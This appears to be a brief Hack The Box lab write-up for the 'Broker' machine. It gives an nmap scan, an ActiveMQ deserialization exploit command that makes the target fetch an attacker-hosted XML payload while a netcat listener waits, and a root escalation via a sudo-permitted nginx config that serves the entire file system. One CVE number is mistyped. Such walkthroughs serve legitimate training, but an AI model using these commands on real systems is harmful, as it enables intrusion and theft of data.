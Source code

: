 # Broker

## Info

Broker is an easy rated linux machine from hack the box.

## Nmap

All ports tcp scan.

```
22/tcp    open  ssh        syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http       syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
1883/tcp  open  mqtt       syn-ack ttl 63
5672/tcp  open  amqp?      syn-ack ttl 63
8161/tcp  open  http       syn-ack ttl 63 Jetty 9.4.39.v20210325
42683/tcp open  tcpwrapped syn-ack ttl 63
61613/tcp open  stomp      syn-ack ttl 63 Apache ActiveMQ
61614/tcp open  http       syn-ack ttl 63 Jetty 9.4.39.v20210325
61616/tcp open  apachemq   syn-ack ttl 63 ActiveMQ OpenWire transport
```

## User

Port 61616 is vulnerable to RCE due to unsafe deserialization within the OpenWire protocol. CVE-2023-46604.

Public exploit for CVE-2023-46606 (python).

```
https://github.com/evkl1d/CVE-2023-46604/tree/main
```

After starting a netcat listener and python webserver that can access the poc.xml, the following command is used.

```
python3 exploit.py -i 10.129.230.87 -p 61616 -u http://10.10.14.67/poc.xml
```

## Root

Trying sudo without a password shows the following command is allowed to run as root.

```
/usr/sbin/nginx
```

Creating the following config file allows the server to open 1337 and access the full file system.

```
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
server {
    listen 1337;
    root /;
    autoindex on;
}
}
```

Then run the command.

```
/usr/sbin/nginx -c /tmp/nginx.conf
```
Any file can be accessed on port 1337.
